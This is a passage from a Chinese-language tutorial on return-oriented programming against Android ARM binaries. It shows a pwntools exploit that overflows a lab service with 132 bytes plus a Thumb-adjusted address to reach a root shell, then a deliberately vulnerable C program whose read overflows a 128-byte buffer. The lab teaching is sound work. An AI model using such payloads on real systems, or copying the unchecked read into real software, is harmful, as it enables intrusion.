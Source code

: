 
![](../pictures/linuxrop8.jpg)   

因为callsystem()被编译成了thumb指令，所以我们需要将地址+1，让pc知道这里的代码为thumb指令，最终exp如下：  
``` python
#!/usr/bin/env python
from pwn import *

#p = process('./level6')
p = remote('127.0.0.1',10001)

p.recvuntil('\n')

callsystemaddr = 0x00008554 + 1
payload =  'A'*132 + p32(callsystemaddr)

p.send(payload)

p.interactive()
```
执行效果如下：  
```
$ python level6.py 
[+] Opening connection to 127.0.0.1 on port 10001: Done
[*] Switching to interactive mode
$ /system/bin/id
uid=0(root) gid=0(root) context=u:r:shell:s0
```

## 0x02 寻找thumb gadgets

下面我们来看第二个程序level7.c：  
``` c
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>

char *str="/system/bin/sh";

void callsystem()
{
system("id");
}

void vulnerable_function() {
char buf[128];
read(STDIN_FILENO, buf, 256);
}

int main(int argc, char** argv) {
if (argc==2&&strcmp("passwd",argv[1])==0)
callsystem();
write(STDOUT_FILENO, "Hello, World\n", 13);    
vulnerable_function();
}
```